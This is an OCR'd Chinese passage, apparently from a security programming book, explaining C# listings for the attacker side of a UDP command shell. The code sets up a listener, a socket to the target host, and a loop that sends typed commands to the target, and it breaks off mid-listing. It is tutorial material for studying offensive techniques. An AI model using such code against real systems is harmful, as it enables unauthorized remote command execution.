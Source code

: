 为了使此次攻击有效，攻击者必须能够监听并向正确的主机发送 UDP 广播。列表 4-13 显示了设置 UDP 监听器的第一段代码。

> static void Main(string[] args)
> 
> {
> 
> int lport = int.➊Parse(args[1]);
> 
> using (UdpClient listener = new ➋UdpClient(lport))
> 
> {
> 
> IPEndPoint localEP = new ➌IPEndPoint(IPAddress.Any, lport);
> 
> string output;
> 
> byte[] bytes; 列表 4-13：为攻击者端代码设置 UDP 监听器和其他变量

假设该代码将接受作为参数的目标主机和监听端口，我们将监听端口传递给 Parse() ➊ 以将字符串转换为整数，然后将结果整数传递给 UdpClient 构造函数 ➋ 来实例化一个新的 UdpClient 类。接着，我们将监听端口传递给 IPEndPoint 类的构造函数，并传递 IPAddress.Any 值来实例化一个新的 IPEndPoint 类 ➌。一旦 IPEndPoint 设置好，我们声明变量 output 和 bytes 以备后用。

创建用于发送 UDP 广播的变量

列表 4-14 显示了如何创建用于发送 UDP 广播的变量。

> using (Socket sock = new ➊Socket(AddressFamily.InterNetwork,
> 
> SocketType.Dgram,
> 
> ProtocolType.Udp))
> 
> {
> 
> IPAddress addr = ➋IPAddress.Parse(args[0]);
> 
> IPEndPoint addrEP = new ➌IPEndPoint(addr, lport); 列表 4-14：创建 UDP 套接字和端点以进行通信

首先，我们在 using 块的上下文中实例化一个新的 Socket 类 ➊。传递给 Socket 的枚举值告诉套接字，我们将使用 IPv4 地址、数据报和 UDP 通过广播进行通信。我们使用 IPAddress.Parse() ➋ 创建一个新的 IPAddress 实例，将传递给代码的第一个参数转换为 IPAddress 类。然后，我们将 IPAddress 对象和目标 UDP 监听器监听的端口传递给 IPEndPoint 构造函数，以实例化一个新的 IPEndPoint 类 ➌。

与目标通信

清单 4-15 显示了我们如何将数据发送到目标并从目标接收数据。

> Console.WriteLine("Enter command to send, or a blank line to quit");
> 
> while (true)
> 
> {
> 
> string command = ➊Console.ReadLine();
> 
> byte[] buff = Encoding.ASCII.GetBytes(command);
> 
> try
> 
> {
> 
> sock.➋SendTo(buff, addrEP);
> 
> if (string.IsNullOrEmpty(command))
> 
> {
> 
> sock.Close();
> 